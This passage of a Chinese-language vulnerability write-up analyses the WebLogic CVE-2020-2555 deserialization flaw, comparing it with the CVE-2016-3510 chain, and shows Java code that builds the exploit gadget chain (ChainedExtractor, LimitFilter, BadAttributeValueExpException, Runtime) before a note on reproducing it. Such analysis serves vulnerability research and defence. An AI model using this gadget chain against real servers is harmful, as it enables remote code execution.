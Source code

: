 ```
        extractor1,
        extractor2,
        extractor3,
};
ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);

```

再是封装进 LimitFilter 对象，

```
LimitFilter limitFilter = new LimitFilter();

//m_comparator
Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
m_comparator.setAccessible(true);
m_comparator.set(limitFilter, chainedExtractor);

//m_oAnchorTop
Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
m_oAnchorTop.setAccessible(true);
m_oAnchorTop.set(limitFilter, Runtime.class);

```

接下来将其封装进 BadAttributeValueExpException，

```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException, limitFilter);

```

看到这里，我回想起了 CVE-2016-3510 中用到的 CC1 链，相似度可谓非常高了，CC1 中的 InvokerTransformer 也有 method.invoke()，几个 Transformer 封装成了 ChainedTransformer，再封装进可以对成员变量调用 readObject() 的类，最终发送出去。

整个链的构造如出一辙，不一样的就是换了反序列化点，CVE-2016-3510 中 readObject 便算是完成了任务，而 CVE-2020-2555 中则是再通过 toString 进入另一层面。

**调试**

### **（一）环境搭建**

版本与之前不同了，漏洞用到的 UniversalExtractor 是 WebLogic 12.2.1.4.0 所特有的，而 vulhub\weblogic 均是 10.3.6 版本的，搭建相应的 docker 也需要下载相应的 jar，可直接搭在本机上。

### **（二）复现**

运行 PoC，

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xfMJxKl0tuu7ZILpGMFTvo7ZNlXE6sqEh3JbO7leKdED0QyicODzfsL0Q/640?wx_fmt=png)
